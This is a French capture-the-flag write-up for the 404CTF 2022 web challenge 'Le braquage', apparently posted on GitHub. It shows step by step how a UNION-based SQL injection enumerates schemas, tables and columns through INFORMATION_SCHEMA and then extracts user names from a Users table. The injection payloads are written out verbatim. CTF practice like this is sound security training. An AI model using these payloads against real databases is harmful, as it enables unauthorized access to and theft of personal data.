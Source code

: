 ```yaml
---
title: CTFs | 404CTF | Web | Le braquage | Informations
author: BatBato
date: 2022-11-07
categories: [CTFs, 404CTF, Web, Informations]
tags: [404CTF, Web]
permalink: /CTFs/404CTF/Web/Le_braquage/Informations
---
```


# Informations

Il nous est suggéré d'utiliser ici les ```UNION```. On cherche donc le nombre de champs pour l'injection et on trouve :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174606807-94f0afe3-64a3-48bc-a1b1-ce02e228ed0a.png)
</br>

On cherche le nom de la base de données avec ```schema_name``` de la table ```INFORMATION_SCHEMA.SCHEMATA``` (``` UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA -- -```).
On obtient deux bases de données :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174607177-ca835e49-fe54-4ac0-b8e7-bbf22fb8ba92.png)
</br>

On se concentre maintenant sur la base de données ```UnionVendeurs```. On cherche les tables qu'elle contient (``` ' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='UnionVendeurs' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174607754-a71093ce-9d0f-4963-b26b-55463ca17e09.png)
</br>

La table ```Users``` semble être la plus intéressante. Mais nous ne connaissons pas le nom des colonnes (``` ' UNION select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='Users' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174610013-90393f71-c3b6-4b1a-9f4b-c08cfec9af93.png)
</br>

On récupère le nom et le prénom ``` UNION select nom, prenom from Users -- -```:</br>
![image](https://user-images.githubusercontent.com/73934639/174610266-6421865e-fb7a-45ea-bc7d-c0b74ed07d90.png)

Nous pouvons passer à [la dernière étape](https://github.com/Nouman404/404CTF_2022/tree/main/Web/Le%20braquage/Rencontres).
